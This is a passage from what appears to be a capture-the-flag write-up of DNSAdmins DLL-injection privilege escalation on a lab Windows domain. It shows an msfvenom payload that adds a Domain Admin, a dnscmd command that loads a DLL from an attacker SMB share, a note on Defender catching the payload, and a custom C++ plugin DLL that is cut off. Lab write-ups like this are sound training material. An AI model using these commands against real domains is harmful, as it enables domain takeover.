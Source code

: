 Got stuck and checked Writeup again. It said there is a way to do DLL injection with the members of DNSAdmins group by running the `dnscmd` binary.

```powershell
# make malicious DLL (be sure to match arch of victim)
msfvenom -p windows/x64/exec cmd='net user derp Herpderp123! /add /domain && net group "Domain Admins" derp /add /domain' -f dll -o derp.dll

# configure DNS server to load malicious DLL
dnscmd localhost /config /serverlevelplugindll \\10.10.14.8\share\derp.dll

# check that ServerLevelPluginDLL value is set to our DLL
reg query \\RESOLUTE\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters

# restart DNS server to run malicious DLL
sc stop dns
sc start dns
```

But this failed... After fiddling with it a bunch, I think Windows Defender is catching the metasploit payload. I tried using the `-e x64/xor` encoder, but even that was caught. Maybe it'll work if I compile a custom DLL.

References for building the DLL:
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#dnsadmins
- https://blog.didierstevens.com/2017/09/08/quickpost-dlldemo/
- https://blog.didierstevens.com/2018/07/10/quickpost-compiling-dlls-with-mingw-on-kali/
- https://github.com/kazkansouh/DNSAdmin-DLL/

Here's `derp.cpp`:

```cpp
// compile with:
// x86_64-w64-mingw32-gcc derp.cpp -shared -o derp.dll

#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
  switch ( ul_reason_for_call )
  {
    case DLL_PROCESS_ATTACH: // A process is loading the DLL.
      system ("whoami > C:\\users\\ryan\\documents\\whoami.txt"); // to test it works
      break;
    case DLL_THREAD_ATTACH: // A process is creating a new thread.
      break;
    case DLL_THREAD_DETACH: // A thread exits normally.
      break;
    case DLL_PROCESS_DETACH: // A process unloads the DLL.
      break;
  }
  return TRUE;
}

// required export function, triggers payload when called by DNS server
extern "C" __declspec(dllexport)
DWORD WINAPI DnsPluginInitialize(
	PVOID pDnsAllocateFunction,
	PVOID pDnsFreeFunction)
{
    // add evil user
```